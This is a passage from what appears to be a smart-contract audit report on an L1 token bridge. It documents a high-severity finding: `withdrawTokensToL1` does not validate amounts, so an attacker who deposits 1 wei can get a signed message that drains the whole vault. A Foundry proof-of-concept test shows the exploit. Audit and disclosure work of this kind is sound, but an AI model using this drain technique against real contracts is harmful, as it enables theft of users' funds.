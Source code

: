 **Recommended Mitigation:** Use a mapping to track the deposit limit of each user instead of using the contract balance

### [H-7] The `L1BossBridge::withdrawTokensToL1` function has no validation on the withdrawal amount being the same as the deposited amount in `L1BossBridge::depositTokensToL2`, allowing attacker to withdraw more funds than deposited 

**Description:** The `L1BossBridge::withdrawTokensToL1` doesn't validate the `amount` that has been deposited. Therefore the user can with a bigger amount, even the entire balance of the contract. 

**Impact:** Attacker can steal all the funds from the vault.

**Proof of Concept:** 

Steps:
- Attacker deposits 1 wei (or 0 wei) into the L2 bridge.
- Attacker crafts and encodes a  malicious message and submits it to the `operator` to be signed by him. The malicious message has `amount` field set to a high value, like the total funds available in the `vault`.
- Since the attacker had deposited 1 wei, operator approves & signs the message, not knowing the contents of it since it is encoded.
- Attacker calls `withdrawTokensToL1()`. 
- All vault's funds are transferred to the attacker.

```javascript
    function test_CanWithdrawEntireVaultBalance() public {
        uint256 vaultInitialBalance = token.balanceOf(address(vault));
        deal(address(token), address(vault), 100 ether);
        assertEq(token.balanceOf(address(vault)), vaultInitialBalance + 100 ether);

        vm.startPrank(user);
        uint256 depositAmount = 1 wei;
        uint256 userInitialBalance = token.balanceOf(address(user));
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
        assertEq(token.balanceOf(address(vault)), vaultInitialBalance + 100 ether + depositAmount);
        assertEq(token.balanceOf(address(user)), userInitialBalance - depositAmount);
        
        uint256 vaultBalance = token.balanceOf(address(vault));
        bytes memory maliciousMessage = abi.encode(
            address(token), // target
            0, // value
            abi.encodeCall(IERC20.transferFrom, (address(vault), user, vaultBalance)) // data
        );
        vm.stopPrank();

        // `operator` signs the message off-chain since `user` had deposited 1 wei earlier into the L2 bridge
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(maliciousMessage, operator.key);

        vm.startPrank(user);
        tokenBridge.withdrawTokensToL1(user, vaultBalance, v, r, s);
        vm.stopPrank();

        assertEq(token.balanceOf(address(vault)), 0);
        assertEq(token.balanceOf(user), userInitialBalance - depositAmount + vaultBalance);
    }
```
